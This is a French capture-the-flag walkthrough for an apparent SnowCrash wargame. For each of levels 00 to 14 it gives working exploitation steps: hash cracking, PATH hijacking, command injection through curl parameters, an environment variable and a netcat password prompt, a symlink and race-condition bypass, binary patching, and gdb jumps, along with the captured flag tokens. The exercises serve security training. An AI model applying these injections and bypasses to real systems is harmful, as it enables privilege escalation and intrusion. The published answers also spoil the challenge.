

# flag 00

cd /
find / -user flag00
cat /rofs/usr/sbin/john

cdiiddwpgswtgt

code césar > 15
nottoohardhere

## Flag : x24ti5gi3x0ol2eh4esiuxias

# flag 01

cat /etc/passwd | grep flag01
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

hashcat -m 1500 42hDRfypTqqnw rockyou.txt
42hDRfypTqqnw:abcdefg                                     
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1500 (descrypt, DES (Unix), Traditional DES)
Hash.Target......: 42hDRfypTqqnw
Time.Started.....: Sun Feb 22 12:46:26 2026 (0 secs)
Time.Estimated...: Sun Feb 22 12:46:26 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 36298.6 kH/s (5.82ms) @ Accel:512 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 676973/14344384 (4.72%)
Rejected.........: 152685/676973 (22.55%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> clyde8
Hardware.Mon.#1..: Temp: 63c Util:  0% Core:1500MHz Mem:6001MHz Bus:8

Started: Sun Feb 22 12:46:18 2026
Stopped: Sun Feb 22 12:46:27 2026

## Flag : f2av5il02puano7naaf6adaaf

# flag 02

ouvrir level02.pcap dans wireshark

après le paquet "password:" reçu ft_wandr(DEL)(DEL)(DEL)NDRel(DEL)L0L
ft_waNDReL0L

## Flag : kooda2puivaav1idi4f57q8iq

# flag03

ouverture de level03 (executable dans ghidra):
setresgid et setresuid avec l'user flag03
et ensuite la commande executée est /usr/bin/env echo Exploit me

il suffit de créer un executable nommée echo et le mettre plus tôot dans le PATH:

cd ..
chmod 777 level03
(set les permissions pour écrire dans notre home)
nano echo

#!/bin/bash

getflag

export PATH="/home/user/level03:$PATH"

chmod +x echo

./level03

## flag : qi0maab88jeaj46qoumi7maus

# Flag04

le code de level04.pl ne semble pas sanitize le parametre qui peut etre passé au serveur http de ce fait en passant x=$(commande) la commande est executée dans le print du echo.

curl "http://localhost:4747/level04.pl?x=\$(whoami)"
flag04

curl "http://localhost:4747/?x=\$(getflag)"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

## flag : ne2searoevaevoem4ov4ar8ap

# Flag05

find / -user flag05
cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done

aucune difficulté à comprendre que n'importe quoi va etre executé depuis /opt/openarenaserver/

et vu qu'on a les permission d'écriture il suffit de faire un .sh avec 
#!/bin/bash

getflag | wall
pour broadcast le flag a tous les utilisateurs connectés

Broadcast Message from flag05@Snow                                             
        (somewhere) at 15:32 ...                                               
                                                                               
Check flag.Here is your token : viuaaale9huek52boumoomioc 

## flag : viuaaale9huek52boumoomioc

# Flag 06

./level06 test s
PHP Notice:  Undefined variable: system in /home/user/level06/level06.php(4) : regexp code on line 1
(getflag)
level06@SnowCrash:~$ cat test
[x $system(getflag)]

[x {${system(getflag)}}]

./level06 test s
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1

## flag : wiok45aaoguiboiki2tuin6ub

# Flag 07

quand on ouvre le binaire dans ghidra:
int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int iVar2;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
                    /* Unresolved local var: char * buffer@[DW_OP_breg4(ESP): +20]
                       Unresolved local var: gid_t gid@[DW_OP_breg4(ESP): +24]
                       Unresolved local var: uid_t uid@[DW_OP_breg4(ESP): +28] */
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}

on s'aperçoit que il recupère une variable d'env nommée LOGNAME. avec cette information on peut donc faire une injection de commande comme celà:
export LOGNAME="salut ; getflag"

et quand on execute:
./level07 
salut
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h

## flag : fiumuikeil55xe9cu4dood66h

# Flag 08

en décompilant avec ghidra:

int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int __fd;
  size_t __n;
  ssize_t sVar2;
  int in_GS_OFFSET;
  undefined1 local_414 [1024];
  int local_14;
  
                    /* Unresolved local var: char[1024] buf@[DW_OP_breg4(ESP): +44]
                       Unresolved local var: int fd@[DW_OP_breg4(ESP): +36]
                       Unresolved local var: int rc@[DW_OP_breg4(ESP): +40] */
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc == 1) {
    printf("%s [file to read]\n",*argv);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  pcVar1 = strstr(argv[1],"token");
  if (pcVar1 != (char *)0x0) {
    printf("You may not access \'%s\'\n",argv[1]);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  __fd = open(argv[1],0);
  if (__fd == -1) {
    err(1,"Unable to open %s",argv[1]);
  }
  __n = read(__fd,local_414,0x400);
  if (__n == 0xffffffff) {
    err(1,"Unable to read fd %d",__fd);
  }
  sVar2 = write(1,local_414,__n);
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return sVar2;
}

 on se rend compte
que le programme permet de lire un fichier avec l'utilisateur flag08.
cependant il regarde seulement le nom du fichier sans se soucier des symlink.

Il suffit donc de créer un symlink pour bypass la verification de nom et ainsi pouvoir lire le contenu du fichier token

ln -s token coucou
level08@SnowCrash:~$ ls
coucou  level08  token
level08@SnowCrash:~$ ./level08 coucou
quif5eloekouj29ke0vouxean

mdp pour flag08

## flag : 25749xKZ8L7DkSCwJkT9dyv6f

# Flag 09

size_t main(int param_1,int param_2)

{
  char cVar1;
  bool bVar2;
  long lVar3;
  size_t sVar4;
  char *pcVar5;
  int iVar6;
  int iVar7;
  uint uVar8;
  int in_GS_OFFSET;
  byte bVar9;
  uint local_120;
  undefined1 local_114 [256];
  int local_14;
  
  bVar9 = 0;
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  bVar2 = false;
  local_120 = 0xffffffff;
  lVar3 = ptrace(PTRACE_TRACEME,0,1,0);
  if (lVar3 < 0) {
    puts("You should not reverse this");
    sVar4 = 1;
  }
  else {
    pcVar5 = getenv("LD_PRELOAD");
    if (pcVar5 == (char *)0x0) {
      iVar6 = open("/etc/ld.so.preload",0);
      if (iVar6 < 1) {
        iVar6 = syscall_open("/proc/self/maps",0);
        if (iVar6 == -1) {
          fwrite("/proc/self/maps is unaccessible, probably a LD_PRELOAD attempt exit..\n",1,0x46,
                 stderr);
          sVar4 = 1;
        }
        else {
          do {
            do {
              while( true ) {
                iVar7 = syscall_gets(local_114,0x100,iVar6);
                sVar4 = 0;
                if (iVar7 == 0) goto LAB_08048a77;
                iVar7 = isLib(local_114,&DAT_08048c2b);
                if (iVar7 == 0) break;
                bVar2 = true;
              }
            } while (!bVar2);
            iVar7 = isLib(local_114,&DAT_08048c30);
            if (iVar7 != 0) {
              if (param_1 == 2) goto LAB_08048996;
              sVar4 = fwrite("You need to provied only one arg.\n",1,0x22,stderr);
              goto LAB_08048a77;
            }
            iVar7 = afterSubstr(local_114,"00000000 00:00 0");
          } while (iVar7 != 0);
          sVar4 = fwrite("LD_PRELOAD detected through memory maps exit ..\n",1,0x30,stderr);
        }
      }
      else {
        fwrite("Injection Linked lib detected exit..\n",1,0x25,stderr);
        sVar4 = 1;
      }
    }
    else {
      fwrite("Injection Linked lib detected exit..\n",1,0x25,stderr);
      sVar4 = 1;
    }
  }
LAB_08048a77:
  if (local_14 == *(int *)(in_GS_OFFSET + 0x14)) {
    return sVar4;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
LAB_08048996:
  local_120 = local_120 + 1;
  uVar8 = 0xffffffff;
  pcVar5 = *(char **)(param_2 + 4);
  do {
    if (uVar8 == 0) break;
    uVar8 = uVar8 - 1;
    cVar1 = *pcVar5;
    pcVar5 = pcVar5 + (uint)bVar9 * -2 + 1;
  } while (cVar1 != '\0');
  if (~uVar8 - 1 <= local_120) goto code_r0x080489ca;
  putchar((int)*(char *)(local_120 + *(int *)(param_2 + 4)) + local_120);
  goto LAB_08048996;
code_r0x080489ca:
  sVar4 = fputc(10,stdout);
  goto LAB_08048a77;
}

le programme prend une string en input et rajoute l'index de la loop à chaque char ascii

si on écrit un programme en python simple pour revenir en arrière on trouve le mdp pour flag09: f3iji1ju5yuevaus41q1afiuq

## flag : s5cAJpM8ev6XHw998pRWG728z

# flag10

time of check time of use race condition

entre le moment ou le access est check et le moment du open pour lire

int main(int argc,char **argv)

{
  char *__cp;
  uint16_t uVar1;
  int iVar2;
  int iVar3;
  ssize_t sVar4;
  size_t __n;
  int *piVar5;
  char *pcVar6;
  int in_GS_OFFSET;
  undefined1 local_1024 [4096];
  sockaddr local_24;
  int local_14;
  
                    /* Unresolved local var: char * file@[DW_OP_breg4(ESP): +40]
                       Unresolved local var: char * host@[DW_OP_breg4(ESP): +44] */
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*argv);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  pcVar6 = argv[1];
  __cp = argv[2];
  iVar2 = access(argv[1],4);
  if (iVar2 == 0) {
                    /* Unresolved local var: int fd@[DW_OP_breg4(ESP): +48]
                       Unresolved local var: int ffd@[DW_OP_breg4(ESP): +52]
                       Unresolved local var: int rc@[DW_OP_breg4(ESP): +56]
                       Unresolved local var: sockaddr_in sin@[DW_OP_breg4(ESP): +4156]
                       Unresolved local var: char[4096] buffer@[DW_OP_breg4(ESP): +60] */
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    local_24.sa_data[2] = '\0';
    local_24.sa_data[3] = '\0';
    local_24.sa_data[4] = '\0';
    local_24.sa_data[5] = '\0';
    local_24.sa_data[6] = '\0';
    local_24.sa_data[7] = '\0';
    local_24.sa_data[8] = '\0';
    local_24.sa_data[9] = '\0';
    local_24.sa_data[10] = '\0';
    local_24.sa_data[0xb] = '\0';
    local_24.sa_data[0xc] = '\0';
    local_24.sa_data[0xd] = '\0';
    local_24.sa_family = 2;
    local_24.sa_data[0] = '\0';
    local_24.sa_data[1] = '\0';
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    local_24.sa_data._0_2_ = uVar1;
    iVar3 = connect(iVar2,&local_24,0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      pcVar6 = strerror(*piVar5);
      printf("Unable to read from file: %s\n",pcVar6);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    write(iVar2,local_1024,__n);
    iVar2 = puts("wrote file!");
  }
  else {
    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return iVar2;
}

terminal 1 : 
nc -lk 6969

terminal 2 :
while true; do
    ln -sf /tmp/exploit /tmp/racefile
    ln -sf /home/user/level10/token /tmp/racefile
done

terminal 3:
while true; do
    /home/user/level10/level10 /tmp/racedir/racefile 127.0.0.1
done

mdp de flag10 woupa2yuojeeaaed06riuj63c

# flag 10 : feulo4b72j7edeahuete3no7c

# Flag 11

injection de commande avec la fonction hash:
prog = io.popen("echo "..pass.." | sha1sum", "r")

netcat 127.0.0.1 5151
Password: coucou; getflag | wall; echo "coucou"
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 13:10 ...                                               
                                                                               
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s                      
                                                                               
Erf nope..

## flag 11 : fa6v5ateaw21peobuub8ipe6s

# flag 12

cat /tmp/GIVEFLAG.SH
#!/bin/bash

getflag | wall

curl 'http://127.0.0.1:4646/?x=`/*/giveflag.sh`'
                                                                               
Broadcast Message from flag12@Snow                                             
        (somewhere) at 13:44 ...                                               
                                                                               
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr                      
                                                             
## flag : g1qKMiRpXf53AWhDaU7FEkczr

# flag 13

création d'un executable patché qui bypass la vérification de l'UID:

(changement du JZ après le CMP par un JMP sans condition)

l'executable call ft_des et nous donne le flag sans avoir à comprendre toute la fonction

level00@SnowCrash:~$ ls
level13_patched
level00@SnowCrash:~$ chmod +x level13_patched 
level00@SnowCrash:~$ ./level13_patched 
your token is 2A31L79asukciNyi8uppkEuSx

## flag : 2A31L79asukciNyi8uppkEuSx

# flag 14

reverse engineer du getflag:

adresse des instructions pour avoir accès à chaque flag:

flag 06 : 0x08048ccb
flag 02 : 0x08048c3b
flag 00 : 0x08048bf3
flag 01 : 0x08048c17
flag 04 : 0x08048c83
flag 03 : 0x08048c5f
flag 05 : 0x08048ca7
flag 10 : 0x08048d5b
flag 08 : 0x08048d13
flag 07 : 0x08048cef
flag 09 : 0x08048d37
flag 12 : 0x08048da3
flag 11 : 0x08048d7f
flag 13 : 0x08048dc4
flag 14 : 0x08048de5

gdb ./getflag
b main
set $eip = 0x08048de5
c
Continuing.
7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ
 stack smashing detected : terminated

Program received signal SIGABRT, Aborted.
0xf7fc7579 in __kernel_vsyscall ()

## flag : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ
